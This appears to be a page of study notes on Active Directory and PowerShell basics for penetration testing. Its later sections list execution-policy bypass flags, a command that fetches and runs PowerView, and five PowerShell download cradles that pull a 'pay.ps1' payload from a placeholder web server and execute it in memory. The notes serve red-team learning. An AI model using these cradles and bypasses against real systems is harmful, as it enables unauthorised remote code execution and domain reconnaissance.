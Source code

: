# AD Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

Get-Help \* - Lists everything abtout the help topic

Get-Help process (lists everything which contains the word process)

Update-Help - Update the healp system (v3+)

Get-help cmdlet\_name -Full - List full help about a topic

Get-Help cmdlet\_name -Examples

Get-command -CommandType cmdlet - List all cmdlets



**Use this parameter to not print errors powershell**\
****-ErrorAction SilentlyContinue

**Rename powershell windows**\
****$host.ui.RawUI.WindowTitle = "name"\
****&#x20;

### Execution Policy

It is NOT a security boundary

Powershell -exectionpolicy bypass\
powershell -ep bypass\
Powershell -c \<cmd>\
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"

&#x20;

### Execute .PS1 File / PowerView

. .\PowerView.ps1

iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -UseBasicParsing)

### Execute AD Module

Download [https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module .\ActiveDirectory\ActiveDirectory.psd1

{% hint style="info" %}
Most of the AD Modules have the -Filter -Properties and -Identity options!

Get-AD-User -Filter \* -Properties \*\
Get-AD-User -Identity username1 -Properties \*
{% endhint %}

\


iex (new-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory](https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1'\);Import-ActiveDirectory)

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.\
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1\
Get-Command -Module ActiveDirectory

### Module

Import a module/file\
Import-Module \<modulepath>

List all commands of a module:\
Get-Command -Module \<modulename>

&#x20;

### Download and execute PowerShell Scripts

iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)

&#x20;**Use a COM Object**

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

**PSv3 or newer**

Iex (iwr '[http://websever/ps.ps1](http://websever/ps.ps1)') -iwr is alias for invoke-web request

&#x20;$h=New-Object -ComObject\
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText

&#x20;$wr = \[System.NET.WebRequest]::Create("http://werbser.ps.ps1")\
$r = $wr.GetResponse()\
IEX (\[System.IO.StreamReader]\($r.GetResponseStream())).ReadToEnd()

&#x20;







